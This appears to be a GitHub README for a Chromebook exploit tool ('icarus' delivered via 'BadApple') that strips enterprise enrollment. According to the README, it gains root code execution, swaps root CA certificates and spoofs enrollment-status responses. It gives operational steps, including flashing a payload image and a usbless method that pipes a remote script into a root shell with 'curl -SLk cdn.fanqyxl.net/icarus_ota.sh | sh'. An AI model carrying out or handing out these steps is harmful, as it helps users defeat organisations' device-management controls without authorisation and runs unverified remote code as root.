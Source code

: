 # icarus but for badapple
removal of enterprise enrollment on chromebooks via miniOS code exection and exploiting a vulnerability in unencrypted stateful files being loaded to the ROOT-A partition, allowing us to change rootCA certs, and intercepting the enrollment status packets and returning unenrolled to clear FWMP.

# UPDATED TO HAVE THE NEW ICARUS CERT
pretty straightforward process. this acts as a way to execute the icarus payload initally meant to be executed in shims. \
BadApple is an exploit to gain ACE(arbitary code execution) as root in developer mode whilst enterprise enrolled. SH1mmer does the same thing, but some boards have been keyrolled.

## steps
now, you can choose 2 different ways to carry this out.
1. requires usb, no wifi
2. usbless, requires wifi

### 1. usb method
1. from the Releases page of this repository, download the image provided, which is named `icarus_ba.img`
2. use chromebook recovery utility or balenaEtcher or dd or your preferred usb flashing tool to flash the image to a thumbdrive
3. use BadApple to obtain a shell
4. plug in the usb stick with the flashed image
5. find the usb stick identifier with `fdisk -l` 
6. mount the image with `mkdir /icarus && mount /dev/sdX /icarus`, where `X` is your usb identifier, e.g. `/dev/sda`
7. now, to execute the icarus payload, run `cd /icarus && ./icarus_ba.sh`

### 2. usbless method
1. enter miniOS
2. when the frecon screen loads, click Next
3. next, connect to an available wifi network
4. when the wifi has connected, DO NOT PROCEED. we now use BadApple to obtain a shell
5. run these commands to start the icarus payload: `curl -SLk cdn.fanqyxl.net/icarus_ota.sh | sh`

## build a badapple icarus image
this is useless for the average user, only use this if you want to customize PKIMetadata or icarus_ba.sh

1. cd into the root directory of this repository
2. run `sudo ./image_create.sh`.
3. a image will be placed in the root directory of this repo called `icarus_ba.img`

it is an ext4 image that has an original size of 100MB, which is then shrinked to its minimum after adding PKIMetadata and icarus_ba.sh.

## credits
- appleflyer: finding BadApple, making the original payload
- xmb9/stella: helping with stateful detection by telling me about cgpt
- sophie: telling me about the issue with stateful detection
- kilo: making this usbless
- fanqyxl: helping by making this usbless, and for generating new icarus certs.
- writable: icarus itself
